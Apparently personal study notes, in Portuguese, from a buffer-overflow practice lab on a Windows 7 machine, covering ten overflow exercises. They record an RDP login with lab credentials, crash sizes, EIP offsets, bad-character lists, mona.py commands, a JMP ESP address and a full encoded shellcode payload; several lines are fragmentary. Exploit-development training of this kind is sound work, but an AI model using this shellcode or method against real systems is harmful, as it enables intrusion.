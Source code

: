 Maquina Windows 7 32-bits
Credenciais RDP: xfreerdp /u:admin /p:password /cert:ignore /v:10.10.216.217 /workarea

2000 bytes aproximadamente quebram a aplicação

6F43396E
EIP = offset 1978 + "BBBB"

Bad Chars: 00, 07, 08, A1, 2E, 2F, A0
2E = ./
07 2E 2F A0 00
!mona jmp -r esp -cpb "\x00\x07\xA0\x2E"

!mona bytearray -b "\x00"
!mona compare -f C:\mona\oscp\bytearray.bin -a 01A9FA30

\x01\x02\x03\x04\x05\x06\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
 removendo x07 x08 não é bad char,

625011AF


"\xbd\x77\xc8\x28\x9b\xdb\xce\xd9\x74\x24\xf4\x58\x2b\xc9"
"\xb1\x52\x83\xe8\xfc\x31\x68\x0e\x03\x1f\xc6\xca\x6e\x23"
"\x3e\x88\x91\xdb\xbf\xed\x18\x3e\x8e\x2d\x7e\x4b\xa1\x9d"
"\xf4\x19\x4e\x55\x58\x89\xc5\x1b\x75\xbe\x6e\x91\xa3\xf1"
"\x6f\x8a\x90\x90\xf3\xd1\xc4\x72\xcd\x19\x19\x73\x0a\x47"
"\xd0\x21\xc3\x03\x47\xd5\x60\x59\x54\x5e\x3a\x4f\xdc\x83"
"\x8b\x6e\xcd\x12\x87\x28\xcd\x95\x44\x41\x44\x8d\x89\x6c"
"\x1e\x26\x79\x1a\xa1\xee\xb3\xe3\x0e\xcf\x7b\x16\x4e\x08"
"\xbb\xc9\x25\x60\xbf\x74\x3e\xb7\xbd\xa2\xcb\x23\x65\x20"
"\x6b\x8f\x97\xe5\xea\x44\x9b\x42\x78\x02\xb8\x55\xad\x39"
"\xc4\xde\x50\xed\x4c\xa4\x76\x29\x14\x7e\x16\x68\xf0\xd1"
"\x27\x6a\x5b\x8d\x8d\xe1\x76\xda\xbf\xa8\x1e\x2f\xf2\x52"
"\xdf\x27\x85\x21\xed\xe8\x3d\xad\x5d\x60\x98\x2a\xa1\x5b"
"\x5c\xa4\x5c\x64\x9d\xed\x9a\x30\xcd\x85\x0b\x39\x86\x55"
"\xb3\xec\x09\x05\x1b\x5f\xea\xf5\xdb\x0f\x82\x1f\xd4\x70"
"\xb2\x20\x3e\x19\x59\xdb\xa9\x2c\x96\xb5\x1e\x59\xa4\x39"
"\x70\xc5\x21\xdf\x18\xe5\x67\x48\xb5\x9c\x2d\x02\x24\x60"
"\xf8\x6f\x66\xea\x0f\x90\x29\x1b\x65\x82\xde\xeb\x30\xf8"
"\x49\xf3\xee\x94\x16\x66\x75\x64\x50\x9b\x22\x33\x35\x6d"
"\x3b\xd1\xab\xd4\x95\xc7\x31\x80\xde\x43\xee\x71\xe0\x4a"
"\x63\xcd\xc6\x5c\xbd\xce\x42\x08\x11\x99\x1c\xe6\xd7\x73"
"\xef\x50\x8e\x28\xb9\x34\x57\x03\x7a\x42\x58\x4e\x0c\xaa"
"\xe9\x27\x49\xd5\xc6\xaf\x5d\xae\x3a\x50\xa1\x65\xff\x70"
"\x40\xaf\x0a\x19\xdd\x3a\xb7\x44\xde\x91\xf4\x70\x5d\x13"
"\x85\x86\x7d\x56\x80\xc3\x39\x8b\xf8\x5c\xac\xab\xaf\x5d"
"\xe5"

**OVERFLOW2**

Fuzzing
A aplicação quebra com 700 bytes aproximadamente.

Para aintigir EIP 634 bytes

Bad Chars
x00\x07\x08\xa1\x0

23, 83, BA, 3C, 
\x23\x83\xBA\x3C

\x00\x23\x83\xBA\x3C

**OVERFLOW3**

Fazendo um Fuzzing descobrimos que a aplicação quebra com aproximadamente:
	1300 bytes
Agora descobrir com quantos bytes atingimos EIP
 1272 + 23 = 1295
 offset 1274

BadChars
\x00\x11\x40\xB8\xEE\x5F
\x00\x11\x40\x5F\xEE

**OVERFLOW4**

Fazendo fuzzing a aplicação quebra com 2100 bytes.
Seu EIP está é atingido em 2026 bytes

\x00\xD4\xA9\xCD\x

**OVERFLOW5**

Fazendo fuzzing a aplicação quebra com 400 bytes
Seu EIP é atingido com 314 bytes

BadChars:
	\x00\xF4\x16\xFD
 \x2F

**OVERFLOW6**

Com o Fuzzing a aplicação quebra com 1100 bytes
O EIP é atingido com 1034 bytes

\x00\x08\x2C\xAD\x

**OVERFLOW7**

Fuzzing 1400 bytes
EIP 1306 bytes
BadChars \x00\x8C\xAE\xBE\xFB\x

**OVERFLOW8

Fuzzing 1800 bytes
EIP 1786 bytes
BadChars: \x00\x1D\x2E\xC7\xEE

**OVERFLOW9

Fuzzing 1600 bytes
EIP 1514 bytes
BadChars: \x00\x04\x3E\xE1

**OVERFLOW10

Fuzzing 600 bytes
EIP 537 bytes
BadChars: \x00\xAD\xBE\xDE\xA0\xEF

